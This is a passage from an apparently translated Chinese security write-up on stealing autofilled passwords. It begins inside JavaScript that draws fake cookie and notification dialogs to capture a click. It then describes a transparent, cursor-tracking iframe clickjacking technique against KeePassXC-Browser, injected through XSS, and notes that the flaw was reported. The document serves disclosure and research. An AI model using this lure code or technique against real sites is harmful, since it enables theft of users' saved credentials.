#cookie-dialog a:hover {cursor: pointer!important; } .bar {margin: 0 5px!important; width: auto!important; height: auto!important; position: relative!important; } #accept-all:hover {cursor: pointer!important; background: #5fa624!important; text-decoration: none!important; } .btn:hover {cursor: pointer!important; background: #ffffff!important; text-decoration: none!important; }</style> \
                            " +
      overlaydiv +
      '<div id="cookie-div"><div id="cookie-dialog"> <div> <h2>Privacy & Transparency</h2> <p>We and our partners use cookies to  Store and/or access information on a device. We and our partners use data for  Personalised ads and content, ad and content measurement, audience insights and product development. An example of data being processed may be a unique identifier stored in a cookie. Some of our partners may process your data as a part of their legitimate business interest without asking for consent. To view the purposes they believe they have legitimate interest for, or to object to this data processing use the vendor list link below. The consent submitted will only be used for data processing originating from this website. If you would like to change your settings or withdraw consent at any time, the link to do so is in our privacy policy accessible from our home page.</p><p><span id="button-row"><button class="btn">Manage Settings</button><button id="accept-all" class="btn" style="color: rgb(255, 255, 255) !important;">Continue with Recommended Cookies</button> </span> </p> <div id="links"> <a href="javascript:void(0);">Vendor List</a> <span class="bar">|</span><a href="javascript:void(0);">Privacy Policy</a></div></div></div></div>';
  } else {
    dialogdiv.innerHTML =
      "<style>.no-scroll {overflow: hidden;} #overlay {position: fixed; display: block; width: 100%; height: 100%; top: 0; left: 0; right: 0; bottom: 0; background-color: rgba(0,0,0,0.5); z-index: 225859400; animation: .5s showoverlay; } #overlay.remove-overlay {animation: .5s hideoverlay; opacity: 0; } @keyframes showoverlay {from { opacity: 0; } to { opacity: 1; } } @keyframes hideoverlay {from { opacity: 1; } to { opacity: 0; } } #notification-container #notification-dialog .button {box-sizing: border-box; padding: 0.75em 1.5em; font-size: 1em; border-radius: .25em; font-weight: 400; box-shadow: unset; display: -ms-flexbox; display: flex; float: right; position: relative; line-height: 1.5; text-align: center; white-space: nowrap; vertical-align: middle; cursor: pointer; -webkit-user-select: none; font-family: inherit; letter-spacing: 0.05em; margin: 0; border: 1px solid transparent; } #notification-container #notification-dialog .button.secondary {box-shadow: none; background: white !important; color: #0078D1 !important; margin-right: 0.714em; } #notification-container #notification-dialog .sizing {display: block; -webkit-backface-visibility: initial !important; backface-visibility: initial !important; } #notification-container #notification-dialog .notification-body-message {box-sizing: border-box; padding: 0 0 0 1em; font-weight: 400; float: left; width: calc(100% - 80px); line-height: 1.45em; -o-user-select: none; -webkit-user-select: none; -moz-user-select: none; -ms-user-select: none; user-select: none; cursor: default; color: #051B2C !important; } #notification-container #notification-dialog .notification-body-icon img.icon {width: 45px; top: 3px; left: 50%; transform: translateX(-50%); position: absolute; height: 45px; } #notification-container #notification-dialog .notification-body-icon {box-sizing: border-box; float: left; width: 80px; height: 80px; position: relative; } #notification-container #notification-dialog .notification-body {box-sizing: border-box; margin: 0; } #notification-container #notification-dialog {width: 500px; box-sizing: border-box; max-width: 100%; margin: 0 auto; " +
      boxshadow +
      ' background: white !important; color: #051b2c; padding: 1.5em 1.5em; border-bottom-left-radius: 0.5em; border-bottom-right-radius: 0.5em; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif, "Apple Color Emoji", "Segoe UI Emoji", "Seoe UI Symbol"; } #notification-container {font-size: 16px; position: fixed; z-index: 2258594000; left: 0; right: 0; -webkit-font-smoothing: initial; } #notification-container.slide-down {top: 0; } #notification-dialog .sizing {content: ""; display: block; height: 0; clear: both; } #notification-container #notification-dialog .button.primary {background: #0078D1; color: white !important; } #notification-container #notification-dialog .button.primary:hover {background: #0062ab; } #notification-container.slide-down #notification-dialog {-webkit-animation-name: animationDown; -webkit-animation-iteration-count: 1; -webkit-animation-timing-function: ease-out; -webkit-animation-duration: 400ms; -webkit-animation-fill-mode: forwards; animation-name: animationDown; animation-iteration-count: 1; animation-timing-function: ease-out; animation-duration: 400ms; animation-fill-mode: forwards; -webkit-font-smoothing: initial; } #notification-container.slide-up {-webkit-animation-name: animationUp; -webkit-animation-iteration-count: 1; -webkit-animation-timing-function: ease-out; -webkit-animation-duration: 500ms; -webkit-animation-fill-mode: forwards; animation-name: animationUp; animation-iteration-count: 1; animation-timing-function: ease-out; animation-duration: 500ms; animation-fill-mode: forwards; } @keyframes animationUp {0% {transform: translateY(0%); } 100% {transform: translateY(-150%); } } @keyframes animationDown {0% {transform: translateY(-150%); } 100% {transform: translateY(0); }}</style> \
                            ' +
      overlaydiv +
      '<div id="notification-container" class="notification-container slide-down"><div id="notification-dialog" class="notification-dialog"><div class="notification-body" id="notification-body"><div class="notification-body-icon"></div><div class="notification-body-message">We\'d like to send you notifications for the latest news and updates.</div><div class="sizing"></div></div><div id="buttons"><button class="primary button">Allow</button><button class="secondary button">Cancel</button><div class="sizing"></div></div></div></div>';
  }

  document.body.appendChild(dialogdiv);

  if (scrolling == "no") {
    document.getElementsByTagName("body")[0].classList.add("no-scroll");
  }
}

function addDialogEvents() {
  window.addEventListener("click", function () {
    if (overlay == "yes") {
      hideOverlay();
    }

    if (scrolling == "no") {
      document.getElementsByTagName("body")[0].classList.remove("no-scroll");
    }

    if (dialog == "cookie") {
      document.getElementById("cookie-div").style.display = "none";
    } else {
      hideDialog();
    }
  });

  window.addEventListener("keydown", function () {
    if (overlay == "yes") {
      hideOverlay();
    }

    if (scrolling == "no") {
      document.getElementsByTagName("body")[0].classList.remove("no-scroll");
    }

    if (dialog == "cookie") {
      document.getElementById("cookie-div").style.display = "none";
    } else {
      hideDialog();
    }
  });
}

function hideDialog() {
  document.getElementById("notification-container").classList.add("slide-up");
}

function hideOverlay() {
  var x = document.getElementById("overlay");
  x.classList.add("remove-overlay");
  window.setTimeout(function () {
    x.style.display = "none";
  }, 500);
}
```

**演示**

- 保存您密码的登录表单：<https://websecurity.dev/password-managers/login/>
- 带脚本的测试网站：<https://websecurity.dev/password-managers/autofill/>

谷歌浏览器——需要用户交互



LastPass——储存的密码在登录后悔自动填充



## 点击劫持与 KeePassXC-Browser

在文章的开头，我提到过 KeePassXC-Browser 容易受到点击劫持。当我测试自动填充的时候，我发现 KeePassXC-Browser 填充数据只需要单独点击输入框旁边的一个按钮。我在基于 chromium 的浏览器中也使用了一键输入，所以我会对这个漏洞进行分析。

一键式操作并不是这个漏洞的唯一原因。问题在于创建不可见表单和表单处于不可见框架（`<iframe>`）中时，会出现不同的行为。

对于 KeepassXC-Browser 密码管理器，默认当你点击按钮时填充密码。



如果新建表单设置为 `opacity:0.2` ，这个按钮依然可见：


但如果表单处于一个 `opacity:0.2` 的 iframe 中，那么这个按钮也会变得透明——甚至可以使得按钮变得不可见。



因此攻击者只需要在用户点击的地方放置一个不可见的 iframe 。在我写的脚本中，这个地方可以是一个 cookie 确认或者提醒对话框。

除了在对话框按钮上放置 iframe ，还有另一种方法——在鼠标光标处放置 iframe。具体而言，就是一个跟踪光标位置的 iframe 并将 iframe 设置为 KeepassXC-Browser 的具体大小并准确固定在按钮图标上。这种情况下，无论用户点击何处，最终结果都是点击到按钮图标，然后填充登录数据。

`opacity:1` 的 iframe


`opacity:0` 的 iframe


脚本描述：

1. 创建新登录表单时使用了 XSS 漏洞
2. 创建一个会加载同样页面的 iframe，并且这个 iframe 会包含一个新建表单
3. 将这个 iframe 设置成透明（`opacity:0`）并且大小设置为和按钮图标一样
4. iframe 的内容将会放置在新建表单处，即按钮图标位置
5. iframe 会追踪鼠标移动并且放置在光标处

**演示（不可见按钮图标）**

- 保存密码的登录表单：<https://websecurity.dev/password-managers/login/>
- 带脚本的测试网站：<https://websecurity.dev/password-managers/clickjacking/>



这种情况下一般会出现拓展不在 iframe 顶部的问题。除了上面提到的使图标不可见的操作外，还可以覆盖部分拓展图标或影响可见部分。您可以再下图看到减少 iframe 宽度影响了图标可见部分。


另一种方式则是使用 1\*1 像素的 iframe，将内容精确定位到图标。由于大小限制，即使设置了 `opacity:1`，这个 iframe 也不可见。这个 iframe 总是放置在鼠标下方因此技术细节方面是一样的——即无论用户点击何处，点击到的总是这个 iframe 中的按钮图标。

如果域名中储存了更多的登录信息，那么会出现一个向用户显示的选择菜单。在 iframe 中，这个选择菜单也是对用户隐藏的。因此即使储存了多个登录名，也能够滥用 KeepassXC-Browser （窃取数据）。


在下图您可以看到 LastPass 密码管理器如果处理这个问题。菜单位于半透明的 iframe 上方，并没有经过任何的大小和透明度调整。


Roboform 也是一键填充数据，但它并没有这个漏洞。它的按钮图标总是出现在 frame 的最上层并且透明度不变。


只有通过 KeePassXC-Browser 存储密码时才能利用这个漏洞。如果密码首先保存到 KeePassXC，那么用户总会看到这个确认对话框。

这个漏洞已经报告了并且很快就会修复：<https://github.com/keepassxreboot/keepassxc-browser/issues/1367>

## 用户的潜在威胁

任何使用自动填充的用户保存的登录凭据都有可能被窃取。一次攻击只能窃取一个以保存的条目（相关更多信息请参考[限制](#限制)章节），并且只能窃取攻击代码所在的域名。而要窃取凭据，还需要受害者访问攻击者篡改过的网站。

**例子——储存型 XSS**

有攻击者在亚马逊（Amazon.com）发现了储存型 XSS。这个漏洞在产品评论位置。由于攻击者不受产品购买的限制（应该指的是不需要购买商品），他在每个产品下面发布带有 XSS 的评论（注入外部脚本）。注入的脚本采用上面提到的方法来进行攻击。

- 在浏览器/密码管理器中储存亚马逊（Amazon.com）账户的数据，并开启了自动填充功能的用户在访问任何产品时都会导致相关数据被盗。

**例子——反射型 XSS**

有攻击者在 Facebook 上发现了反射型 XSS。攻击者能够使用短链生成器或通过 Open Redirect 漏洞隐藏整个 URL。

- 任何保存了 Facebook 密码并且在浏览器或者密码管理器开启了自动填充功能的用户，在打开连接时，这些保存的登陆凭据都会被盗。

问题主要在于用户事先并不知道有恶意代码注入。例如，去年我在 Foodpanda.com 上报告了一个 XSS 漏洞。由于新冠疫情，这个网站去年访问量很大，是一个值得信赖的网站。如果攻击者在我报告之前发现了该漏洞，那么他可能已经对用户使用了上述技术。

如果用户始终使用唯一生成的密码，同时在 Web 应用程序上启用了 2FA/MFA（两步验证或多步验证），那么密码泄漏可能不会对用户造成太大影响。而在另一种情况下，用户如果没有启用 2FA/MFA，密码泄露就可能导致问题，因为攻击者能够重复登录用户的账户。如果用户在服务上使用非唯一密码被盗，在没有开启 2FA/MFA 的情况下，攻击者还可以访问受害者的其他服务。

如果使用上述方法窃取密码，即使用户使用 <https://haveibeenpwned.com> 网站查询，也不会知道是否已经发生泄漏。并且发生泄漏的站点的管理员无法检测到泄漏。这是因为它是一种利用客户端漏洞 (XSS) 和密码管理器中的错误配置（启用自动填充）的技术。

## 企业的潜在威胁/信息安全的建议

> TODO

## 建议

> TODO

## FAQ
